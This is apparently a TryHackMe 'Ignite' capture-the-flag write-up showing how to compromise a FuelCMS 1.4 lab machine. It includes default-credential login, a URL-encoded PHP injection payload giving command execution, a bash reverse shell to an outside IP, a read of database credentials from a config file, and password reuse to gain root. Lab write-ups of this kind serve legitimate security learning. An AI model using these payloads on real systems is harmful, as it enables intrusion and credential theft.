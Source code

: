 ```yaml
---
title: Ignite
description: 'Exploiting FuleCMS v1.4 and escalating to root with password reuse'
pubDate: 2024-05-18
category: 'tryhackme'
tags: []
image: 'https://tryhackme-images.s3.amazonaws.com/room-icons/676cb3273c613c9ba00688162efc0979.png'
---
```


Default user/pass (admin:admin) are used for login at `/fuel`

## RCE

Searching for an exploit we find: https://github.com/AssassinUKG/fuleCMS

Looking at the srouce (`https://github.com/AssassinUKG/fuleCMS/blob/main/fuelCMS.py`) we see that the `?filter` parameter can be used to execute arbitrary commands.

In Burp we can better see the output of this command:
```
http://10.10.243.105/fuel/pages/select/?filter=%27%2Bpi(print(%24a%3D%27system%27))%2B%24a(%27ls%20-la%27)%2B%27
```

```bash
...[snip]...
systemtotal 52
drwxrwxrwx 4 root root  4096 Jul 26  2019 .
drwxr-xr-x 3 root root  4096 Jul 26  2019 ..
-rw-r--r-- 1 root root   163 Jul 26  2019 .htaccess
-rwxrwxrwx 1 root root  1427 Jul 26  2019 README.md
drwxrwxrwx 9 root root  4096 Jul 26  2019 assets
-rwxrwxrwx 1 root root   193 Jul 26  2019 composer.json
-rwxrwxrwx 1 root root  6502 Jul 26  2019 contributing.md
drwxrwxrwx 9 root root  4096 Jul 26  2019 fuel
-rwxrwxrwx 1 root root 11802 Jul 26  2019 index.php
-rwxrwxrwx 1 root root    30 Jul 26  2019 robots.txt
...[snip]...
```

## Shell

```bash
bash -c "bash -i >& /dev/tcp/10.8.119.137/4444 0>&1"
```
URL encode and use in the RCE url:
```
http://10.10.243.105/fuel/pages/select/?filter=%27%2Bpi(print(%24a%3D%27system%27))%2B%24a(%27%62%61%73%68%20%2d%63%20%22%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%38%2e%31%31%39%2e%31%33%37%2f%34%34%34%34%20%30%3e%26%31%22%27)%2B%27
```


## Privesc

The database credentials are:

```bash
cat /var/www/html/fuel/application/config/database.php
...[snip]...
'hostname' => 'localhost',
        'username' => 'root',
        'password' => 'mememe',
        'database' => 'fuel_schema',
        'dbdriver' => 'mysqli',
...[snip]...
```

We can use this password to switch to the root user:

```bash
su # <- mememe
```


